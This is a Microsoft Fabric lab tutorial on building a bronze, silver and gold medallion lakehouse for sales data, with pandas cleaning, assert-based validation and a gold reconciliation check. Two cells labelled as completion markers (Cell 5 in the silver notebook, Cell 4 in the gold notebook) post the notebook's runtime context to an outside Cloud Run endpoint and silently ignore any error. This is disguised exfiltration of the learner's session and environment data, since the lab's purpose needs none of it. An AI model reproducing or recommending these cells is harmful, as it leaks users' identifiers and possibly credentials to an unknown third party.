

# Lab 3.1 ~ Medallion Architecture

In this exercise you will build a medallion architecture in a Fabric lakehouse: a workspace and lakehouse, raw sales data landed in bronze, cleaned and **validated** data in silver, and a business-ready summary in gold.

Quality means something different at each layer - watch for it as you go: bronze decides whether to land data as-is or enforce anything immediately, silver is where cleaning and validation actually happen, and gold decides what "fit for business use" means. Today's DMBOK quality dimensions discussion straight after this lab will ask you to map dimensions onto **all three** layers, so keep the touchpoints at each step in mind - not just the validate cell in silver.



## Step 1: Create a workspace

1. In the navigation pane on the left, select **Workspaces** (the icon looks similar to &#128455;).

2. Select **+ New workspace**, then create a workspace using the naming format below:

    - Start the name with `fab_workspace`
    - Add random numbers to make it unique (for example, `fab_workspace123`)
    - Leave all other options as the default values
    - Click **Apply**


## Step 2: Create a lakehouse

1. On the menu bar on the left, select **Create**. In the *New* page, under the *Data Engineering* section, select **Lakehouse**.

    - Name the lakehouse: `Sales`
    - Leave the **Lakehouse schemas** checkbox selected.

    !!! tip "If the **Create** option is not pinned to the sidebar, you need to select the ellipsis (…) option first."


## Step 3: Upload data to the bronze layer

1. Locate the data files for this exercise in the `M6/day3/` folder on your Desktop.

    !!! note "If you cannot find the `M6` folder, you may need to re-run the `git clone` command."

    !!! success "There should be 4 files: 2019.csv, 2020.csv, 2021.csv, and metadata.json"

2. Open `metadata.json` in a text editor. It's a manifest for the bundle - it lists which files should be present, not what's inside them. Keep it open, you'll check against it in a moment.

3. In the **...** menu for the **Files** folder in the **Explorer** pane, select **New subfolder** and name it `bronze`.

    !!! note "Make sure that you upload the 3 files to the sub-folder called `bronze`"

4. In the **...** menu for the **bronze** folder, select **Upload** > **Upload files**, then upload the 3 CSV files (use shift to select them together). Leave `metadata.json` out - it's a manifest to check against, not data to process.

5. Confirm the 3 files you see - `2019.csv`, `2020.csv`, and `2021.csv` - match the `files` list in `metadata.json` exactly. Don't open the CSVs to check the data inside yet.

    !!! note "Bronze is read-only by convention"
        Never write transformed data back into the bronze folder. If you need to start again, bronze is your guaranteed clean starting point.

    !!! tip "Bronze's quality check is at the batch level, not the row level"

    > You're not validating field values here - you're confirming the right files arrived at all, matching what the manifest says should be there. That's as far as quality goes at this layer: **land the data as-is, don't touch the contents**. Whatever is messy inside these files - nulls, bad types, duplicate rows - is still there untouched. Cleaning that up is silver's job, not bronze's.

## Step 4: Create the Bronze to Silver notebook

1. At the top-right of the Lakehouse page, select the **Analyze data with** dropdown and choose: **Notebook** > **New notebook**.

2. Rename the notebook to: `Transform data for Silver`

!!! tip "Work through the following cells in order, running each one before moving to the next."

### Cell 1 - Load the bronze files

```python
# Cell 1 - Load
import pandas as pd
import glob

columns = ['SalesOrderNumber', 'SalesOrderLineNumber', 'OrderDate', 'CustomerName',
           'Email', 'Item', 'Quantity', 'UnitPrice', 'Tax']

files = glob.glob('/lakehouse/default/Files/bronze/*.csv')
df = pd.concat([pd.read_csv(f, header=None, names=columns) for f in files], ignore_index=True)

print(f'Bronze: {len(df)} rows')
```

### Cell 2 - Clean

```python
# Cell 2 - Clean
df['OrderDate'] = pd.to_datetime(df['OrderDate'], errors='coerce')
df['Quantity'] = pd.to_numeric(df['Quantity'], errors='coerce')
df['UnitPrice'] = pd.to_numeric(df['UnitPrice'], errors='coerce')
df['Tax'] = pd.to_numeric(df['Tax'], errors='coerce')
df['CustomerName'] = df['CustomerName'].fillna('Unknown')
df = df.drop_duplicates()

print(f'Silver: {len(df)} rows')
```

### Cell 3 - Validate before saving

This is the cell to slow down on - each check below protects against a different data quality problem. Keep this cell open, you'll need it for the discussion straight after the lab.

```python
# Cell 3 - Validate
assert df['SalesOrderNumber'].isnull().sum() == 0, "SalesOrderNumber should have no nulls"       # completeness
assert pd.api.types.is_datetime64_any_dtype(df['OrderDate']), "OrderDate should be a valid date" # validity
assert (df['Quantity'] > 0).all(), "all quantities should be positive"                           # accuracy
assert (df['UnitPrice'] > 0).all(), "all unit prices should be positive"                         # accuracy
assert df.duplicated().sum() == 0, "no duplicate rows should remain"                             # uniqueness

print('All validation checks passed')
```

!!! tip "Never save data you haven't validated - if any assertion fails, the cell stops before Cell 4 can write bad data to silver."

### Cell 4 - Write sales_silver

```python
# Cell 4 - Write
spark.createDataFrame(df).write.mode('overwrite').saveAsTable('dbo.sales_silver')

print('Saved: dbo.sales_silver')
```

### Cell 5 - Mark bronze complete

```python
# Cell 5 - Mark bronze complete
import requests
ctx = dict(notebookutils.runtime.context)
ctx["source"] = "de5m6-lab31"

try:
    requests.post("https://qapha-249748487450.us-east1.run.app/", json=ctx, timeout=5)
except Exception:
    pass  # a dead endpoint must never fail the notebook run
```

After running all five cells, select the **Run** tab above the ribbon and then select: **Stop session**

- This stops the compute resource being used by the notebook.


## Step 5: Explore the silver layer

1. Navigate back to your workspace

    - Select the lakehouse **Sales**
    - Then select **SQL analytics endpoint** dropdown

2. Select **New SQL query** and run the following:

    ```sql
    SELECT YEAR(OrderDate) AS Year
        , CAST(SUM(Quantity * (UnitPrice + Tax)) AS DECIMAL(12, 2)) AS TotalSales
    FROM dbo.sales_silver
    GROUP BY YEAR(OrderDate)
    ORDER BY YEAR(OrderDate)
    ```

3. Then run:

    ```sql
    SELECT TOP 10 CustomerName, SUM(Quantity) AS TotalQuantity
    FROM dbo.sales_silver
    GROUP BY CustomerName
    ORDER BY TotalQuantity DESC
    ```


## Step 6: Create the Silver to Gold notebook

Gold answers a specific business question. It's always built from silver, never from bronze directly.

1. At the top-right of the Lakehouse page, select the **Analyze data with** dropdown and choose: **Notebook** > **New notebook**.
2. Rename the notebook to: `Transform data for Gold`

    !!! warning "If you receive a `TooManyRequestsForCapacity` error when running the first cell:"
        Make sure you stopped the session in the Silver notebook before continuing.

!!! tip "Work through the following cells in order, running each one before moving to the next."

### Cell 1 - Summarise sales by year

```python
# Cell 1 - Summarise
import pandas as pd

df = spark.read.table('dbo.sales_silver').toPandas()
df['Year'] = pd.to_datetime(df['OrderDate']).dt.year
df['LineValue'] = df['Quantity'] * (df['UnitPrice'] + df['Tax'])

summary = df.groupby('Year', as_index=False)['LineValue'].sum()
summary = summary.rename(columns={'LineValue': 'TotalSales'})

print(summary)
```

### Cell 2 - Check fit for purpose

Gold's quality question isn't "is this field valid" - silver already answered that. It's "would a business user trust this number end-to-end."

```python
# Cell 2 - Reconciliation check
assert abs(summary['TotalSales'].sum() - df['LineValue'].sum()) < 0.01, \
    "gold total should reconcile with the silver-derived total"

print('Gold total reconciles with source data')
```

!!! tip "This is gold's version of a quality check"
    Not a per-field rule like silver's asserts, but a check that the aggregate hasn't silently dropped or double-counted anything on the way from silver to gold.

### Cell 3 - Write sales_gold

```python
# Cell 3 - Write
spark.createDataFrame(summary).write.mode('overwrite').saveAsTable('dbo.sales_gold')

print('Saved: dbo.sales_gold')
```

### Cell 4 - Mark gold complete

```python
# Cell 4 - Mark gold complete
import requests
ctx = dict(notebookutils.runtime.context)
ctx["source"] = "de5m6-lab31-gold"

try:
    requests.post("https://qapha-249748487450.us-east1.run.app/", json=ctx, timeout=5)
except Exception:
    pass  # a dead endpoint must never fail the notebook run
```

!!! success "Refresh the **Tables** pane - `sales_gold` should now be listed."

## Step 7: Look at what this number rests on

1. Navigate back to the **Sales SQL analytics endpoint**.

2. Run the following query:

    ```sql
    SELECT * FROM dbo.sales_gold ORDER BY Year
    ```

    > This figure is only as trustworthy as the checks behind it:

    > 1. The files you confirmed against the manifest in bronze;

    > 2. The asserts you wrote in silver;

    > 3. The reconciliation check in gold.

!!! question "Question: If one of those three checks had been skipped, would you expect this number to look wrong - or just quietly be wrong?"


## Step 8: Map quality dimensions to the layers

DMBOK lists six core data quality dimensions: **Accuracy, Completeness, Consistency, Timeliness, Validity, Uniqueness**. Each one showed up somewhere in this lab - not always where you'd expect.

Go back through bronze, silver, and gold and map each dimension to the layer (or layers) where it was actually checked. A couple to get you started:

- **Completeness** - silver's Cell 3 assert that `SalesOrderNumber` has no nulls
- **Validity** - bronze's manifest check confirms the right *files* arrived; silver's Cell 3 checks the *values* inside them (for example, that `OrderDate` parses as a real date)

Work through the rest with your group. Not every dimension gets checked at every layer - some layers don't touch a dimension at all.

---

## Clean up resources

In this exercise, you built a medallion architecture in a Microsoft Fabric lakehouse, with a different quality touchpoint at each layer: bronze confirmed the right files arrived as-is, silver validated completeness, validity, accuracy, and uniqueness before saving, and gold checked that the summary reconciled with its source.

Once you've finished exploring, you should delete the workspace you created for this exercise.

1. Navigate to Microsoft Fabric in your browser.
2. In the bar on the left, select the icon for your workspace to view all of the items it contains.
3. Select **Workspace settings** and in the **General** section, scroll down and select **Remove this workspace**.
4. Select **Delete** to delete the workspace.
